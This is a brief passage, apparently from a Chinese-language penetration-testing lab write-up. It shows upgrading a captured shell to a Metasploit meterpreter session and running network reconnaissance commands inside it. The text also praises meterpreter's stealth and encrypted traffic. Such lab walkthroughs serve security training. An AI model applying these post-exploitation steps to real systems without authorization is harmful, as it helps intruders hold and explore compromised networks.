 
#### 攻克靶标 2 ~ 4

- 这里需要将已获得的 1 号会话即外层主机 shell 升级为 meterpreter

- meterpreter 是 Metasploit 框架中的一个高级 payload，提供了一个强大的内存驻留 shell，允许攻击者在目标系统上执行各种命令和脚本，而不会在目标系统的硬盘上留下痕迹. 它具备强大的后渗透功能，可以帮助攻击者在目标系统上进行广泛的操作. 与控制台之间的通信经过加密，防止流量被拦截和分析.


```shell
# upgrade cmdshell to meterpreter shell
sessions -u 1

sessions l

sessons -i 2
```

![](../img/DaleChu/sss_715.png)

进入 meterpreter 会话后 :

```shell
# 查看网卡信息
ipconfig

# 查看路由表 
route

# 查看 ARP 缓存
arp
```
